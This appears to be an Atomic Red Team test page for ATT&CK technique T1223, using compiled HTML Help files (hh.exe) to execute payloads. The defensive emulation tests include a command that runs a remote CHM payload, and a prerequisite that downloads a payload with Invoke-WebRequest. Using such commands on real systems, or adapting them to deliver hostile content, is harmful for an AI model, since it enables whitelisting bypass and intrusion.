 # T1223 - Compiled HTML File
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)

Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.
Upon execution calc.exe will open

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1223&#92;src&#92;T1223.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{local_chm_file}
```




#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{local_chm_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{local_chm_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1223/src/T1223.chm" -OutFile "#{local_chm_file}"
```




<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{remote_chm_file}
```






<br/>
